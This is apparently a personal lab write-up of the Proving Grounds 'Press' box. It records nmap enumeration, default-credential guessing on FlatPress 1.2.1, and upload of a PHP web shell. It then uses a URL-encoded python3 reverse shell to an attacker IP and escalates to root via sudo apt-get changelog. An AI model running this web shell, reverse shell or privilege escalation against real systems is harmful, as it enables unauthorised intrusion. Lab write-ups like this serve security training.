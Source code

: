 ```yaml
---
Date: 2024-10-12
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.215.29
Writeup: https://medium.com/@felipeasz007/proving-grounds-pg-presswriteup-93c6d096bae6
---
```

# Press
This was by far the easiest box I've done, and besides needing a nudge on the password guessing I didn't need the walkthrough at all. I'll need to remember to test `password` as well as `admin`, and I may need to look at short list or a quick `hydra` script to test the most obvious credentials quickly. 

Regardless, as soon as I had access and confirmed I was dealing with Flatpress 1.2.1 I had a multitude of exploit options available - I ended up going with the RCE specifically for 1.2.1 (rather than another for 1.3) and had a little bit of trouble getting command execution until I tweaked the PHP file so it included "php" in it and put the `system` command all on one line.

That allowed me to establish the reverse shell, and then as soon as I ran `sudo -l` I was sure it couldn't be this easy. With no password required to run `apt-get` my first thought was that I'd be able to pull anything onto this system, but checking GTFObins provided an even simpler solution to getting `root`.

# Resolution summary
- Ran Nmap to identify ports `22`, `80` & `8089`
- Visited http (`8089`) & identified `FlatPress pf-1.2.1`
- Used password guesses access to admin panel
- Uploaded `shell2.php` file and navigated to command execution
- Established reverse shell with command execution
- Checked `sudo` privileges and found GTFObin for `apt-get`
- Used `apt-get changelog` to open shell as `root` 
## Improved skills
- password guessing
- Writing PHP
## Used tools
- nmap

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Press.nmap 192.168.215.29 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Lugx Gaming Shop HTML5 Template
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-generator: FlatPress fp-1.2.1
|_http-title: FlatPress
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.4p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.56)
- Navigated to `http://192.168.215.29:80`
![[Pasted image 20241012152847.png]]
 - Navigated to `http://192.168.215.29/contact.html` and attempted to send message through contact form
![[Pasted image 20241012153714.png]]
## Port 8089 - HTTP (Apache 2.4.56)
- Navigated to `http://192.168.215.96:9090` and identified `FlatPress pf-1.2.1`
![[Pasted image 20241012152906.png]]
- Navigated to `http://192.168.215.96:9090/login/php` and attempted login with credentials `admin:admin`
![[Pasted image 20241012153036.png]]
- Attempted login with credentials `admin:password` and got access
![[Pasted image 20241012154746.png]]
---
# Exploitation
## Malicious File Upload
- Found RCE vulnerability for `FlatPress 1.2.1` at [https://github.com/flatpressblog/flatpress/issues/152] and followed PoC instructions
- Created `shell.php` with contents;
```
GIF89a;
<?php system($_GET['cmd']);?>
```
- Navigated to `http://192.168.215.29:8089/admin.php?p=uploader` and successfully uploaded `shell2.php`
![[Pasted image 20241012155538.png]]
- Navigated to uploaded file at `http://192.168.215.29:8089/fp-content/attachs/shell2.php` 
![[Pasted image 20241012155809.png]]
- Added `?cmd=whoami` to address bar and found exploit working
![[Pasted image 20241012161115.png]]
- Ran `nc -nvlp 4444` to start listener on port 4444
- Added url-encoded python3 reverse shell to address bar command `?cmd=python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%22192.168.45.250%22%2C4444%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27` and achieved reverse shell 
![[Pasted image 20241012161855.png]]
---
# Privilege Escalation
## Local Enumeration
Ran `sudo -l` and identified `www-data` can run `/usr/bin/apt-get` without password
![[Pasted image 20241012162013.png]]
## Privilege Escalation vector
- Identified GTFObins for [apt-get](https://gtfobins.github.io/gtfobins/apt-get/) and found elevated privileges could be maintained. Ran the following commands;
```
sudo /usr/bin/apt-get changelog apt
!/bin/sh
```
- Achieved `root` access and ran `cat /root/proof.txt` to print flag `b0f6bae4c11626f41dc028df71718383`
![[Pasted image 20241012162715.png]]
---
# Trophy & Loot
`root.txt` = `b0f6bae4c11626f41dc028df71718383`